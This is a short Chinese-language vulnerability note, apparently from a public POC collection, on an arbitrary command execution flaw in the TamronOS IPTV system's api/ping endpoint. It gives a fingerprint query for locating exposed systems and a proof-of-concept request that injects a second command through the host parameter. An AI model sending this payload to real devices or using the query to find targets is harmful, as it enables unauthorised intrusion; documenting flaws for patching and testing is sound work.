 # TamronOS IPTV系统 ping 任意命令执行漏洞

## 漏洞描述

TamronOS IPTV系统 api/ping 存在任意命令执行漏洞，攻击者通过漏洞可以执行任意命令

## 漏洞影响

<a-checkbox checked>TamronOS IPTV系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TamronOS-IPTV系统"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210615145308242.png)



漏洞POC为

```plain
/api/ping?count=5&host=;id;
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210615145342322.png)